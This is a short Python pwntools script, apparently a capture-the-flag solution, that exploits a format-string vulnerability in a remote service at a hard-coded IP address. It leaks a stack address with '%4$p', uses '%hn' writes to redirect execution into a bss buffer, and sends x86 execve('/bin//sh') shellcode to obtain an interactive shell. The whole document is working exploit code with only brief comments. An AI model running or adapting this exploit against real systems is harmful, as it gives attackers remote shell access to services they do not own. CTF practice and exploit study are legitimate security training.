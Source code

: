 from pwn import *

context.log_level = 'info'
r = remote('52.6.64.173',4545)
#r = remote('localhost',8888)

##buffer is in bss not on stack can't wrap around to it

bufaddr = 0x804a080
OFFSET = 4 ##Offset to the argument containing buffers

shellcode ="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

r.send('%4$p\n') ##Leak an addr

addr = int(r.recv(0xa),16)+(OFFSET)
log.info('stack: %x'%addr)
addr = addr&0xFFFF ##Get lower 4 bytes

r.send('%.'+str(addr)+'u%4$hn\n') ##write those bytes
lower = bufaddr&0xffff
r.send(shellcode+'%.'+str(lower-len(shellcode))+'u%12$hn\n')

r.interactive()
